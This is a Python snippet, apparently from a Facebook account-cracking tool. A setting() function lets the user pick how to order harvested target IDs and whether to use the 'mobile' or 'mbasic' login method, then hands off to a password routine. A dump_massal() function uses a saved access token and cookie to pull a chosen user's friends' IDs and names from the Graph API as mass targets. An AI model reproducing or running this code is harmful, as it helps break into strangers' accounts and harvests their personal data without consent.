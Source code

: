 
def setting():
    print('—'*25)
    print('• Pawe By @zaki_2002 •')
    print('—'*25)
    print(f'''{N}├───────────────────────────────────────────────────────''')
    print(f'''{N}├───[{H}1{N}] Old ''')
    print(f'''{N}├───[{H}2{N}] New {H}[RECOMMEND]{N}''')
    print(f'''{N}├───[{H}3{N}] Random {H}[RECOMMEND]{N}''')
    print(f'''{N}├──╭[{h}CHOICE METODE{N}]────────────────────────────────────────────''')
    hu = input(f'''│  ╰─➣{h} ''')
    if hu in ('1', '01'):
        for tua in sorted(id):
            id2.append(tua)
    elif hu in ('2', '02'):
        muda = []
        for bacot in sorted(id):
            muda.append(bacot)
        bcm = len(muda)
        bcmi = bcm - 1
        for xmud in range(bcm):
            id2.append(muda[bcmi])
            bcmi -= 1
    elif hu in ('3', '03'):
        for bacot in id:
            xx = random.randint(0, len(id2))
            id2.insert(xx, bacot)
    else:
        print(f'''{N}├───[{H}+{N}] Choose Yang Bener Kontooll ''')
        exit()
    print(f'''{N}├───────────────────────────────────────────────────────''')
    print(f'''{N}├───[{H}1{N}] Mobile {H}[RECOMMENDED]{N}''')
    print(f'''{N}├───[{H}2{N}] Mbasic ''')
    print(f'''├──╭[{h}CHOICE METODE{N}]────────────────────────────────────────────''')
    hc = input(f'''│  ╰─➣{h} ''')
    if hc in ('1', '01'):
        method.append('mobile')
    elif hc in ('2', '02'):
        method.append('mbasic')
    else:
        method.append('mobile')
    print(f'''{N}│''')
    passwrd()


def dump_massal():
    with requests.Session() as ses:
        token = open('.token.txt', 'r').read()
        cok = open('.cok.txt', 'r').read()
        a = input(f''' {u}ID : ''')
        
        try:
            params = {
                'fields': 'name,friends.fields(id,name,birthday)',
                'access_token': token }
            b = ses.get('https://graph.facebook.com/{}'.format(a), params=params, cookies={'cookie': cok }).json()
            for c in b['friends']['data']:
                id.append(c['id'] + '|' + c['name'])
            yu = f'''{b} Total ID :  \x1b[2;32m ''' + str(len(id))
            print(yu)
            setting()
        except Exception as e:
            print(e)
